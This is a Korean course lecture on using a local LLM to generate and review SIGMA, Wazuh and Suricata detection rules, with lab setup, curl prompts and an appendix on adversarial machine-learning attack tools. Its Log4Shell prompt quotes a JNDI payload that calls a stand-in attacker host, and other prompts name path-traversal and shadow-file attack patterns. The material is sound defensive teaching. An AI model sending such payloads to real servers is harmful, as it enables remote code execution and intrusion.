

# Week 05: 탐지 룰 자동 생성

## 학습 목표
- SIGMA 룰과 Wazuh 룰의 구조를 이해한다
- LLM을 활용하여 공격 패턴에서 탐지 룰을 자동 생성할 수 있다
- 생성된 룰의 품질을 검증하는 방법을 익힌다
- 룰 생성 파이프라인을 구축할 수 있다

## 실습 환경 (공통)

| 서버 | IP | 역할 | 접속 |
|------|-----|------|------|
| bastion | 10.20.30.201 | Control Plane (Bastion) | `ssh ccc@10.20.30.201` (pw: 1) |
| secu | 10.20.30.1 | 방화벽/IPS (nftables, Suricata) | `ssh ccc@10.20.30.1` |
| web | 10.20.30.80 | 웹서버 (JuiceShop:3000, Apache:80) | `ssh ccc@10.20.30.80` |
| siem | 10.20.30.100 | SIEM (Wazuh Dashboard:443, OpenCTI:8080) | `ssh ccc@10.20.30.100` |

**Bastion API:** `http://localhost:9100` / Key: `ccc-api-key-2026`

## 강의 시간 배분 (3시간)

| 시간 | 내용 | 유형 |
|------|------|------|
| 0:00-0:40 | 이론 강의 (Part 1) | 강의 |
| 0:40-1:10 | 이론 심화 + 사례 분석 (Part 2) | 강의/토론 |
| 1:10-1:20 | 휴식 | - |
| 1:20-2:00 | 실습 (Part 3) | 실습 |
| 2:00-2:40 | 심화 실습 + 도구 활용 (Part 4) | 실습 |
| 2:40-2:50 | 휴식 | - |
| 2:50-3:20 | 응용 실습 + Bastion 연동 (Part 5) | 실습 |
| 3:20-3:40 | 정리 + 과제 안내 | 정리 |

---

---

## 용어 해설 (AI/LLM 보안 활용 과목)

| 용어 | 영문 | 설명 | 비유 |
|------|------|------|------|
| **LLM** | Large Language Model | 대규모 언어 모델 (GPT, Claude, Llama 등) | 방대한 텍스트로 훈련된 AI 두뇌 |
| **Ollama** | Ollama | 로컬에서 LLM을 실행하는 도구 | 내 PC에서 돌리는 AI |
| **프롬프트** | Prompt | LLM에게 보내는 입력 텍스트 | AI에게 하는 질문/지시 |
| **토큰** | Token (LLM) | LLM이 처리하는 텍스트의 최소 단위 (~4글자) | 단어의 조각 |
| **컨텍스트 윈도우** | Context Window | LLM이 한 번에 처리할 수 있는 최대 토큰 수 | AI의 단기 기억 용량 |
| **파인튜닝** | Fine-tuning | 사전 학습된 모델을 특정 목적에 맞게 추가 학습 | 일반의가 전공 수련 |
| **RAG** | Retrieval-Augmented Generation | 외부 데이터를 검색하여 LLM 응답에 반영 | AI가 자료를 찾아보고 답변 |
| **에이전트** | Agent (AI) | 도구를 사용하여 자율적으로 작업하는 AI 시스템 | AI 비서 (스스로 판단하고 실행) |
| **도구 호출** | Tool Calling | LLM이 외부 도구/API를 호출하는 기능 | AI가 계산기를 꺼내서 계산 |
| **하네스** | Harness | 에이전트를 관리·제어하는 프레임워크 | AI 비서의 업무 규칙·관리 시스템 |
| **Playbook** | Playbook | 자동화된 작업 절차 (도구/스킬의 순서화된 묶음) | 표준 작업 지침서 (SOP) |
| **PoW** | Proof of Work | 작업 증명 (해시 체인 기반 실행 기록) | 작업 일지 + 영수증 |
| **보상** | Reward (RL) | 태스크 실행 결과에 따른 점수 (+성공, -실패) | 성과급 |
| **Q-learning** | Q-learning | 보상을 기반으로 최적 행동을 학습하는 RL 알고리즘 | 시행착오로 최적 경로를 찾는 학습 |
| **UCB1** | Upper Confidence Bound | 탐험(exploration)과 활용(exploitation)을 균형 잡는 전략 | "가본 길 vs 안 가본 길" 선택 전략 |
| **SubAgent** | SubAgent | 대상 서버에서 명령을 실행하는 경량 런타임 | 현장 파견 직원 |

---

## 1. 탐지 룰이란?

보안 이벤트에서 위협을 식별하기 위한 조건 집합이다.
"이러한 패턴이 발견되면 알림을 발생시켜라"는 규칙이다.

### 룰 포맷 비교

| 포맷 | 특징 | 대상 |
|------|------|------|
| **SIGMA** | 범용, SIEM 독립적 | 다양한 SIEM으로 변환 가능 |
| **Wazuh** | Wazuh 전용 XML | Wazuh SIEM |
| **Suricata** | 네트워크 IPS | 네트워크 트래픽 |
| **YARA** | 파일/메모리 패턴 | 악성코드 탐지 |

---

## 2. SIGMA 룰 구조

> **이 실습을 왜 하는가?**
> "탐지 룰 자동 생성" — 이 주차의 핵심 기술을 실제 서버 환경에서 직접 실행하여 체험한다.
> AI/LLM 보안 활용 분야에서 이 기술은 실무의 핵심이며, 실습을 통해
> 명령어의 의미, 결과 해석 방법, 보안 관점에서의 판단 기준을 익힌다.
>
> **이걸 하면 무엇을 알 수 있는가?**
> - 이 기술이 실제 시스템에서 어떻게 동작하는지 직접 확인
> - 정상과 비정상 결과를 구분하는 눈을 기름
> - 실무에서 바로 활용할 수 있는 명령어와 절차를 체득
>
> **주의:** 모든 실습은 허가된 실습 환경(10.20.30.0/24)에서만 수행한다.

```yaml
title: SSH Brute Force Detection
id: a1234567-b890-cdef-0123-456789abcdef
status: experimental
description: Detects SSH brute force attempts
author: Security Team
date: 2026/03/27
logsource:
  product: linux
  service: sshd
detection:
  selection:
    EventType: "authentication_failure"
    TargetUserName: "root"
  condition: selection | count() > 5
  timeframe: 5m
level: high
tags:
  - attack.credential_access
  - attack.t1110.001
falsepositives:
  - Users who forgot their password
```

### SIGMA 핵심 필드

| 필드 | 설명 |
|------|------|
| logsource | 로그 출처 (OS, 서비스) |
| detection | 탐지 조건 (selection + condition) |
| level | 심각도 (informational/low/medium/high/critical) |
| tags | MITRE ATT&CK 매핑 |

---

## 3. Wazuh 룰 구조

```xml
<group name="sshd,authentication_failed">
  <rule id="100001" level="10">
    <if_sid>5710</if_sid>
    <match>Failed password for root</match>
    <frequency>5</frequency>
    <timeframe>300</timeframe>
    <description>SSH brute force against root detected</description>
    <mitre>
      <id>T1110.001</id>
    </mitre>
    <group>authentication_failures,</group>
  </rule>
</group>
```

### Wazuh 룰 핵심 요소

| 요소 | 설명 |
|------|------|
| `<if_sid>` | 부모 룰 ID (이 룰이 먼저 발동해야 함) |
| `<match>` | 로그에서 찾을 문자열 |
| `<regex>` | 정규식 매칭 |
| `<frequency>` | 발생 횟수 조건 |
| `<timeframe>` | 시간 범위 (초) |
| `<description>` | 알림 설명 |

---

## 4. LLM으로 탐지 룰 생성

### 4.1 공격 설명에서 SIGMA 룰 생성

> **실습 목적**: Wazuh 알림을 LLM으로 자동 분석하여 위협 인텔리전스 보고서를 생성하는 파이프라인을 구축하기 위해 수행한다
>
> **배우는 것**: SIEM 알림 JSON을 LLM에 전달하는 데이터 파이프라인 구조와, 분석 결과를 구조화된 보고서로 변환하는 프롬프트 설계를 이해한다
>
> **결과 해석**: LLM 보고서의 위협 분류, 영향 범위, 대응 권고를 Wazuh 원본 알림과 대조하여 정확성을 검증한다
>
> **실전 활용**: SOC 야간 근무 시 자동 알림 분석, 일일 보안 브리핑 자동 생성, 경영진 보고서 초안 작성에 활용한다

공격 시나리오를 자연어로 설명하면 LLM이 유효한 SIGMA YAML 룰을 자동 생성한다.

```bash
# 공격 설명 → SIGMA 룰 YAML 자동 생성
# MITRE ATT&CK ID와 로그 소스를 포함하여 정확한 매핑 요청
curl -s http://10.20.30.200:11434/v1/chat/completions \
  -H "Content-Type: application/json" \
  -d '{
    "model": "gemma3:12b",
    "messages": [
      {"role": "system", "content": "SIGMA 룰 전문가입니다. 공격 설명을 받아 SIGMA 룰을 YAML 형식으로 생성합니다. 반드시 유효한 SIGMA 포맷을 따르세요."},
      {"role": "user", "content": "다음 공격에 대한 SIGMA 탐지 룰을 생성해주세요:\n\n공격: 리눅스 서버에서 권한 상승 시도\n패턴: 일반 사용자가 /etc/shadow 파일을 읽으려는 시도\n로그 소스: Linux auditd\nMITRE: T1003.008 (Credentials from Password Store)"}
    ],
    "temperature": 0.2
  }' | python3 -c "import json,sys; print(json.load(sys.stdin)['choices'][0]['message']['content'])"
```

### 4.2 로그 샘플에서 Wazuh 룰 생성

실제 로그 샘플을 LLM에게 전달하면 패턴을 분석하여 Wazuh XML 룰을 자동 생성한다. CMS 스캐닝처럼 빈도 기반 탐지가 필요한 경우 frequency/timeframe도 자동 설정된다.

```bash
# 로그 샘플 → Wazuh XML 룰 자동 생성
# rule id 100000-109999: 사용자 정의 룰 범위
curl -s http://10.20.30.200:11434/v1/chat/completions \
  -H "Content-Type: application/json" \
  -d '{
    "model": "gemma3:12b",
    "messages": [
      {"role": "system", "content": "Wazuh 룰 전문가입니다. 로그 샘플을 분석하여 Wazuh XML 룰을 생성합니다. rule id는 100000-109999 범위를 사용하세요."},
      {"role": "user", "content": "다음 로그 패턴을 탐지하는 Wazuh 룰을 만들어주세요:\n\n로그 샘플:\nMar 27 10:15:00 web apache2[5678]: [error] [client 203.0.113.50] File does not exist: /var/www/html/wp-login.php\nMar 27 10:15:01 web apache2[5678]: [error] [client 203.0.113.50] File does not exist: /var/www/html/wp-admin\nMar 27 10:15:02 web apache2[5678]: [error] [client 203.0.113.50] File does not exist: /var/www/html/administrator\n\n탐지 목적: WordPress/CMS 디렉토리 스캔 탐지\n조건: 같은 IP에서 5분 내 10회 이상 존재하지 않는 CMS 경로 접근"}
    ],
    "temperature": 0.2
  }' | python3 -c "import json,sys; print(json.load(sys.stdin)['choices'][0]['message']['content'])"
```

### 4.3 CVE에서 탐지 룰 생성

CVE 정보에서 공격 패턴을 추출하여 SIGMA 룰과 Suricata 룰을 동시에 생성한다. 네트워크 계층과 호스트 계층 양쪽에서 탐지할 수 있다.

```bash
# CVE-2021-44228(Log4Shell) → SIGMA + Suricata 룰 동시 생성
curl -s http://10.20.30.200:11434/v1/chat/completions \
  -H "Content-Type: application/json" \
  -d '{
    "model": "gemma3:12b",
    "messages": [
      {"role": "system", "content": "보안 탐지 엔지니어입니다. CVE 정보를 기반으로 SIGMA 룰과 Suricata 룰을 모두 생성합니다."},
      {"role": "user", "content": "CVE-2021-44228 (Log4Shell)에 대한 탐지 룰을 생성하세요.\n\n공격 패턴: HTTP 요청에 ${jndi:ldap://attacker.com/exploit} 문자열 포함\n로그 소스: 웹 서버 접근 로그, 네트워크 트래픽\n\nSIGMA 룰과 Suricata 룰을 각각 생성하세요."}
    ],
    "temperature": 0.2
  }' | python3 -c "import json,sys; print(json.load(sys.stdin)['choices'][0]['message']['content'])"
```

---

## 5. 룰 품질 검증

### 5.1 LLM으로 룰 리뷰

작성된 탐지 룰을 LLM에게 리뷰시켜 정확성, 오탐률, 우회 가능성, 성능 영향을 평가한다.

```bash
# 리뷰 대상 룰을 변수에 저장
RULE='<rule id="100010" level="12">
  <match>select.*from.*information_schema</match>
  <description>SQL Injection attempt detected</description>
</rule>'

# LLM에 룰 리뷰 요청: 5가지 평가 항목으로 분석
curl -s http://10.20.30.200:11434/v1/chat/completions \
  -H "Content-Type: application/json" \
  -d "{
    \"model\": \"gemma3:12b\",
    \"messages\": [
      {\"role\": \"system\", \"content\": \"Wazuh 룰 리뷰어입니다. 룰의 품질을 평가하고 개선 사항을 제시하세요.\\n평가 항목: 1.정확성 2.오탐률 3.우회 가능성 4.성능 영향 5.개선 제안\"},
      {\"role\": \"user\", \"content\": \"다음 Wazuh 룰을 리뷰해주세요:\\n$RULE\"}
    ],
    \"temperature\": 0.3
  }" | python3 -c "import json,sys; print(json.load(sys.stdin)['choices'][0]['message']['content'])"
```

### 5.2 검증 체크리스트

| 항목 | 확인 내용 |
|------|----------|
| 정확성 | 의도한 공격을 탐지하는가? |
| 오탐률 | 정상 활동에 알림이 발생하지 않는가? |
| 우회 | 인코딩, 대소문자 변환으로 우회 가능한가? |
| 성능 | 정규식이 과도하게 복잡하지 않은가? |
| MITRE | ATT&CK 기법이 올바르게 매핑되었는가? |

---

## 6. 실습

### 실습 1: SSH 공격 탐지 룰 생성 및 검증

```bash
# Step 1: 공격 설명으로 룰 생성
curl -s http://10.20.30.200:11434/v1/chat/completions \
  -H "Content-Type: application/json" \
  -d '{
    "model": "gemma3:12b",
    "messages": [
      {"role": "system", "content": "Wazuh 룰 전문가입니다."},
      {"role": "user", "content": "SSH에서 존재하지 않는 사용자로 로그인 시도를 탐지하는 Wazuh 룰을 생성하세요. 5분 내 3회 이상이면 알림."}
    ],
    "temperature": 0.2
  }' | python3 -c "import json,sys; print(json.load(sys.stdin)['choices'][0]['message']['content'])"
```

```bash
# Step 2: 생성된 룰 리뷰 요청
# (위에서 생성된 룰을 복사하여 리뷰 프롬프트에 입력)
```

### 실습 2: 웹 공격 SIGMA 룰 생성

3가지 웹 공격 패턴(SQLi, XSS, Path Traversal)에 대한 SIGMA 룰을 한 번에 생성시킨다.

```bash
# 3가지 웹 공격 패턴 → SIGMA 룰 일괄 생성 (MITRE 태그 포함)
curl -s http://10.20.30.200:11434/v1/chat/completions \
  -H "Content-Type: application/json" \
  -d '{
    "model": "gemma3:12b",
    "messages": [
      {"role": "system", "content": "SIGMA 룰 전문가입니다."},
      {"role": "user", "content": "다음 웹 공격 패턴들을 탐지하는 SIGMA 룰 3개를 생성하세요:\n1. SQL Injection (union select 패턴)\n2. XSS (script 태그 삽입)\n3. Path Traversal (../../etc/passwd)\n\n각 룰에 MITRE ATT&CK 태그를 포함하세요."}
    ],
    "temperature": 0.3
  }' | python3 -c "import json,sys; print(json.load(sys.stdin)['choices'][0]['message']['content'])"
```

### 실습 3: Bastion로 룰 배포 자동화

```bash
# 생성된 룰을 siem 서버에 배포하는 워크플로
curl -s -X POST http://localhost:9100/projects \
  -H "Content-Type: application/json" \
  -H "X-API-Key: ccc-api-key-2026" \
  -d '{
    "name": "deploy-detection-rule",
    "request_text": "LLM 생성 탐지 룰을 Wazuh에 배포",
    "master_mode": "external"
  }'
```

---

## 7. 룰 생성 파이프라인

```
위협 인텔리전스 (CTI)
  ↓
공격 패턴 추출
  ↓
LLM 룰 생성 (SIGMA/Wazuh)
  ↓
LLM 룰 리뷰 (품질 검증)
  ↓
테스트 환경 검증
  ↓
프로덕션 배포
  ↓
오탐/미탐 피드백 → LLM 재학습
```

---

## 핵심 정리

1. SIGMA는 범용 탐지 룰 포맷으로 다양한 SIEM에서 사용 가능하다
2. LLM은 공격 설명, 로그 샘플, CVE 정보에서 탐지 룰을 자동 생성한다
3. 생성된 룰은 반드시 정확성, 오탐률, 우회 가능성을 검증해야 한다
4. 룰 생성 → 리뷰 → 테스트 → 배포 → 피드백의 파이프라인을 구축한다
5. LLM이 생성한 룰은 출발점이며, 전문가 검증이 필수이다

---

## 다음 주 예고
- Week 06: 취약점 분석 - LLM을 활용한 코드 리뷰와 CVE 분석

---

---

## 심화: AI/LLM 보안 활용 보충

### Ollama API 상세 가이드

#### 기본 호출 구조

```bash
# Ollama는 OpenAI 호환 API를 제공한다
# URL: http://10.20.30.200:11434/v1/chat/completions

curl -s http://10.20.30.200:11434/v1/chat/completions \
  -H "Content-Type: application/json" \
  -d '{
    "model": "gemma3:12b",        ← 사용할 모델
    "messages": [
      {"role": "system", "content": "역할 부여"},  ← 시스템 프롬프트
      {"role": "user", "content": "실제 질문"}      ← 사용자 입력
    ],
    "temperature": 0.1,            ← 출력 다양성 (0=결정론, 1=창의적)
    "max_tokens": 1000             ← 최대 출력 길이
  }'
```

> **각 파라미터의 의미:**
> - `model`: 어떤 AI 모델을 사용할지. 큰 모델일수록 정확하지만 느림
> - `messages`: 대화 내역. system(역할)→user(질문)→assistant(답변) 순서
> - `temperature`: 0에 가까우면 같은 질문에 항상 같은 답. 1에 가까우면 매번 다른 답
> - `max_tokens`: 출력 길이 제한. 토큰 ≈ 글자 수 × 0.5 (한국어)

#### 모델별 특성

| 모델 | 크기 | 응답 시간 | 정확도 | 권장 용도 |
|------|------|---------|--------|---------|
| gemma3:12b | 12B | ~5초 | 양호 | 분석, 룰 생성, 보고서 |
| llama3.1:8b | 8B | ~3초 | 보통 | 빠른 분류, 검증 |
| qwen3:8b | 8B | ~5초 | 보통 | 교차 검증 (다른 벤더) |
| gpt-oss:120b | 120B | ~25초 | 높음 | 복잡한 분석 (시간 여유 시) |

#### 프롬프트 엔지니어링 패턴

**패턴 1: 역할 부여 (Role Assignment)**
```json
{"role":"system","content":"당신은 10년 경력의 SOC 분석가입니다. MITRE ATT&CK에 정통합니다."}
```

**패턴 2: 출력 형식 강제 (Format Control)**
```json
{"role":"system","content":"반드시 JSON으로만 응답하세요. 마크다운, 설명, 주석을 포함하지 마세요."}
```

**패턴 3: Few-shot (예시 제공)**
```json
{"role":"user","content":"예시:\n입력: SSH 실패 5회\n출력: {\"severity\":\"HIGH\",\"attack\":\"brute_force\"}\n\n이제 분석하세요: SSH 실패 20회 후 성공"}
```

**패턴 4: Chain of Thought (단계별 사고)**
```json
{"role":"system","content":"단계별로 분석하세요: 1)현상 파악 2)원인 추론 3)ATT&CK 매핑 4)대응 방안"}
```

### Bastion API 핵심 흐름 요약

```
[1] POST /projects                     → 프로젝트 생성
    Body: {"name":"...", "master_mode":"external"}
    Response: {"project":{"id":"prj_xxx"}}

[2] POST /projects/{id}/plan           → plan 단계로 전환
[3] POST /projects/{id}/execute        → execute 단계로 전환

[4] POST /projects/{id}/execute-plan   → 태스크 실행
    Body: {"tasks":[...], "parallel":true, "subagent_url":"..."}
    Response: {"overall":"success", "tasks_ok":N}

[5] GET /projects/{id}/evidence/summary → 증적 확인
[6] GET /projects/{id}/replay           → 타임라인 재구성
[7] POST /projects/{id}/completion-report → 완료 보고

모든 API에 필수: -H "X-API-Key: ccc-api-key-2026"
```

---
---

> **실습 환경 검증 완료** (2026-03-28): Ollama 22모델(gemma3:12b ~5s), Bastion 50프로젝트, execute-plan 병렬, RL train/recommend

---

## 📂 실습 참조 파일 가이드

> 이번 주 실습에서 **실제로 조작하는** 솔루션의 기능·경로·파일·설정·UI 요점입니다.

### Ollama + LangChain
> **역할:** 로컬 LLM 서빙(Ollama) + 체인 오케스트레이션(LangChain)  
> **실행 위치:** `bastion (LLM 서버)`  
> **접속/호출:** `OLLAMA_HOST=http://10.20.30.201:11434`, Python `from langchain_ollama import OllamaLLM`

**주요 경로·파일**

| 경로 | 역할 |
|------|------|
| `~/.ollama/models/` | 다운로드된 모델 블롭 |
| `/etc/systemd/system/ollama.service` | 서비스 유닛 |

**핵심 설정·키**

- `OLLAMA_HOST=0.0.0.0:11434` — 외부 바인드
- `OLLAMA_KEEP_ALIVE=30m` — 모델 유휴 유지
- `LLM_MODEL=gemma3:4b (env)` — CCC 기본 모델

**로그·확인 명령**

- `journalctl -u ollama` — 서빙 로그
- `LangChain `verbose=True`` — 체인 단계 출력

**UI / CLI 요점**

- `ollama list` — 설치된 모델
- `curl -XPOST $OLLAMA_HOST/api/generate -d '{...}'` — REST 생성
- LangChain `RunnableSequence | parser` — 체인 조립 문법

> **해석 팁.** Ollama는 **첫 호출에 모델 로드**가 커서 지연이 크다. 성능 실험 시 워밍업 호출을 배제하고 측정하자.

### SIGMA + YARA
> **역할:** SIGMA=플랫폼 독립 탐지 룰, YARA=파일/메모리 시그니처  
> **실행 위치:** `SOC 분석가 PC / siem`  
> **접속/호출:** `sigmac` 변환기, `yara <rule> <target>`

**주요 경로·파일**

| 경로 | 역할 |
|------|------|
| `~/sigma/rules/` | SIGMA 룰 저장 |
| `~/yara-rules/` | YARA 룰 저장 |

**핵심 설정·키**

- `SIGMA logsource:product/service` — 로그 소스 매핑
- `YARA `strings: $s1 = "..." ascii wide`` — 시그니처 정의
- `YARA `condition: all of them and filesize < 1MB`` — 매칭 조건

**UI / CLI 요점**

- `sigmac -t elasticsearch-qs rule.yml` — Elastic용 KQL 변환
- `sigmac -t wazuh rule.yml` — Wazuh XML 룰 변환
- `yara -r rules.yar /var/tmp/sample.bin` — 재귀 스캔

> **해석 팁.** SIGMA는 *탐지 의도*, YARA는 *바이너리 패턴*으로 역할 분리. SIGMA 룰은 반드시 **false positive 조건**까지 기술해야 SIEM 운영 가능.

---

## 실제 사례 (WitFoo Precinct 6 — 탐지 룰 자동 생성)

> 출처: WitFoo Precinct 6 Cybersecurity Dataset (Apache 2.0)
> 본 lecture *LLM 으로 SIGMA/YARA 등 탐지 룰을 자동 생성* 학습 항목 매칭.

### LLM 으로 탐지 룰 생성 — "예시 → 룰" 의 변환

탐지 룰 작성은 SOC 운영의 가장 시간 소모적인 작업 중 하나다. 분석가가 *공격 사례 1개를 보고* 그것을 미래에 자동 탐지하는 *SIGMA/YARA 룰 1개* 로 변환하는 작업은 — 룰 1개당 30분 이상 걸린다. 100개 사례를 룰화 하면 50시간.

LLM 의 강점은 — *예시 → 일반화* 다. dataset 에서 mo_name=Data Theft 인 392건을 LLM 에게 보여주고 *"이 신호들의 공통 패턴을 SIGMA 룰로 작성하라"* 라고 요청하면, LLM 은 공통 컬럼 (action, src_ip 패턴, dst_port 분포 등) 을 추출해 SIGMA 룰을 생성한다. 사람이 30분 걸리는 작업을 LLM 이 30초에 한다.



**그림 해석**: LLM 룰 생성은 *1회 작업이 아니라 반복 정밀화* 의 사이클이다. 첫 룰 (v1) 은 false positive 가 많을 수 있고, 운영하며 검증하면서 v2/v3 로 정밀해진다. lecture §"LLM 룰 생성의 자기 개선 루프" 의 핵심.

### Case 1: dataset mo_name 별 룰 변환 가능성 — 사례 수와 패턴 정형 정도

| mo_name | dataset 건수 | LLM 룰 생성 적합성 |
|---|---|---|
| Data Theft | 392건 | 높음 (정형 패턴) |
| Auth Hijack | 23건 | 중간 (사례 부족) |
| 기타 | 다수 | 가변적 |
| 학습 매핑 | §"LLM 룰 생성 조건" | 사례 ≥100건 권장 |

**자세한 해석**:

LLM 으로 탐지 룰을 생성할 때 *사례 수* 가 결정적 변수다. dataset 에 사례가 392건 (Data Theft) 처럼 충분히 있으면 — LLM 이 다양한 변형을 학습하여 *generalizable 룰* 을 만든다. 반면 사례 23건 (Auth Hijack) 처럼 부족하면 — LLM 이 특정 사례에 over-fit 하여 *future variant 를 못 잡는* 룰을 만들 수 있다.

운영 조건은 — **사례 ≥100건이면 LLM 룰 생성 적합, < 50건이면 사람이 직접 작성 권고**. 그 사이는 LLM 초안 + 사람 검토.

학생이 알아야 할 것은 — *"룰 생성 가능 여부" 자체가 dataset 분포에 따라 결정된다* 는 점. mo_name 별 사례 수를 먼저 검증한 후에 LLM 작업을 시작해야 시간 낭비 없다.

### Case 2: 생성된 SIGMA 룰의 정확도 검증 사이클

| 단계 | 작업 | dataset 검증 |
|---|---|---|
| v1 생성 | LLM 이 392건 학습 후 룰 1개 생성 | dataset 에 적용해 과거 392건 검출 율 |
| v1 검출율 | ~85% | 392건 중 333건 잡음 (false negative 59건) |
| v2 정밀화 | LLM 이 false negative 59건 추가 학습 | 룰에 추가 조건 |
| v2 검출율 | ~96% | 392건 중 376건 잡음 |
| v3 정밀화 | false positive 도 줄이기 | precision 추가 |

**자세한 해석**:

LLM 이 처음 만든 룰의 검출율은 보통 ~85% 다. 즉 dataset 의 392건 중 60건 정도를 못 잡는다 — 이 60건이 *룰의 사각지대* 다. 사각지대를 줄이는 방법은 — **놓친 60건을 다시 LLM 에 보여주고 *"이 사례들도 잡는 룰로 보강하라"* 요청**. 이렇게 v2 가 만들어지면 검출율 ~96% 로 올라간다.

여기서 학생이 알아야 할 핵심 trade-off — *recall (잡는 비율) 만 올리면 precision (정확도) 이 떨어진다*. 즉 v2 가 392건을 잘 잡지만, 정상 운영에서 false positive 가 폭증할 수 있다. 따라서 v3 는 *false positive 를 줄이는 추가 조건* 을 넣어 균형을 맞춘다.

이 사이클은 — v1 (recall 85%, precision 95%) → v2 (recall 96%, precision 80%) → v3 (recall 94%, precision 92%) 처럼 두 지표를 함께 끌어올리는 작업이다. lecture §"룰 정밀화의 두 축" 의 정량 정당성.

### 이 사례에서 학생이 배워야 할 3가지

1. **LLM 룰 생성은 사례 수 ≥100 일 때 적합** — 적은 사례는 over-fit 위험.
2. **첫 룰 (v1) 의 검출율은 보통 85% 정도** — 곧바로 운영 적용 X, 사이클로 정밀화.
3. **recall vs precision 의 trade-off 는 v3 에서 균형** — 한 쪽만 올리면 다른 쪽 떨어짐.

**학생 액션**: lab 환경에서 dataset 의 mo_name=Data Theft 100건을 LLM 에 보여주고 SIGMA 룰 v1 생성. v1 을 dataset 전체에 적용하여 recall/precision 측정. false negative 분석 후 v2 생성, 다시 측정. v1 vs v2 의 정량 비교를 보고서로 작성.


---

## 부록: 학습 OSS 도구 매트릭스 (Course7 AI Security — Week 05 모델 보안/적대적 입력)

### 적대적 공격 / 방어 OSS 도구

| 영역 | OSS 도구 |
|------|---------|
| Text 적대적 | **TextAttack** / OpenAttack / NLPAUG |
| Image 적대적 | **advtorch** / Foolbox / CleverHans / ART (IBM) |
| 통합 (multi-modal) | **Adversarial Robustness Toolbox (ART)** — IBM |
| 강건성 평가 | **RobustBench** / advglue / textattack-recipes |
| 인증된 강건성 | **CROWN** / certified-radius / smoothing |
| Model extraction 방어 | **Watermarking** / lm-watermarking / MarkLLM |

### 핵심 — TextAttack (NLP 적대적 표준)

```bash
pip install textattack

# 자동 공격 (recipe 기반)
textattack attack --model bert-base-uncased --recipe textfooler --num-examples 10
textattack attack --model bert-base-uncased --recipe pwws-ren-2019
textattack attack --model bert-base-uncased --recipe deepwordbug

# 사용 가능 recipe (10+):
# textfooler / pwws / bae / bert-attack / deepwordbug / hotflip / kuleshov / pso

# 결과: 각 sample 의 원본 vs 적대적 + 성공률
```

### 학생 환경 준비

```bash
source ~/.venv-llm/bin/activate

# TextAttack
pip install textattack

# advtorch (PyTorch 적대적)
pip install advtorch

# IBM ART (Adversarial Robustness Toolbox)
pip install adversarial-robustness-toolbox

# Foolbox
pip install foolbox

# CleverHans (Google)
pip install cleverhans

# RobustBench (벤치마크)
pip install robustbench
```

### 공격 / 방어 핵심 사용법

```bash
# 1) TextAttack — 빠른 NLP 공격
textattack attack --model gpt2 --recipe textfooler --num-examples 5
# 출력 예: "great movie" → "marvelous movie" (label flip)

# 2) advtorch (Image)
python3 << 'EOF'
import torch
from advtorch.attacks import LinfPGDAttack

model = torch.load("model.pt")
adversary = LinfPGDAttack(model, eps=8/255, eps_iter=2/255, nb_iter=20)
adv_x = adversary.perturb(x, y)
EOF

# 3) IBM ART (멀티 modality 통합)
python3 << 'EOF'
from art.attacks.evasion import FastGradientMethod, ProjectedGradientDescent
from art.estimators.classification import PyTorchClassifier

classifier = PyTorchClassifier(model=model, ...)
attack = ProjectedGradientDescent(estimator=classifier, eps=0.3)
x_adv = attack.generate(x=x_test)
EOF

# 4) RobustBench — 벤치마크
python3 << 'EOF'
from robustbench import benchmark
from robustbench.utils import load_model

model = load_model(model_name='Standard', dataset='cifar10')
acc = benchmark(model, n_examples=100, dataset='cifar10', threat_model='Linf')
print(f"Robust accuracy: {acc}")
EOF

# 5) 방어 — Adversarial training
python3 << 'EOF'
# Madry's PGD adversarial training
for x, y in loader:
    x_adv = adversary.perturb(x, y)
    out = model(x_adv)
    loss = criterion(out, y)
    loss.backward()
EOF

# 6) Certified robustness (smoothing)
python3 << 'EOF'
from smoothing import Smooth
smoothed = Smooth(base_classifier, num_classes=10, sigma=0.25)
prediction, radius = smoothed.certify(x, n0=100, n=1000, alpha=0.001)
EOF
```

### 적대적 평가 표준 흐름

```bash
# Phase 1: Baseline 정확도
clean_acc = eval(model, X_test, y_test)

# Phase 2: 적대적 공격 (TextAttack / advtorch)
adv_X = generate_adversarial(model, X_test)

# Phase 3: 적대적 정확도
adv_acc = eval(model, adv_X, y_test)
robustness_drop = clean_acc - adv_acc

# Phase 4: 인증된 robust accuracy (smoothing 등)
certified_acc = certified_eval(model, X_test, eps=0.1)

# Phase 5: 방어 (adversarial training, randomized smoothing)
defended_model = retrain_with_adversarial(model, adv_X, y_test)

# Phase 6: 보고
# - Clean acc / Adv acc / Certified acc 매트릭스
# - 공격별 성공률
# - 방어 효과
```

### 적대적 공격 / 방어 매트릭스

| 공격 | 도구 | 모델 | 측정 |
|------|------|------|------|
| FGSM | art / advtorch | image | linf eps |
| PGD | art / advtorch | image | linf/l2 eps |
| C&W | art / cleverhans | image | l2 norm |
| TextFooler | TextAttack | NLP | word swap rate |
| BAE | TextAttack | NLP | BERT mask |
| HotFlip | TextAttack | NLP | char swap |

학생은 본 5주차에서 **TextAttack + advtorch + ART + RobustBench + smoothing** 5 도구로 적대적 공격·방어·인증의 3 단계 사이클을 OSS 만으로 익힌다.
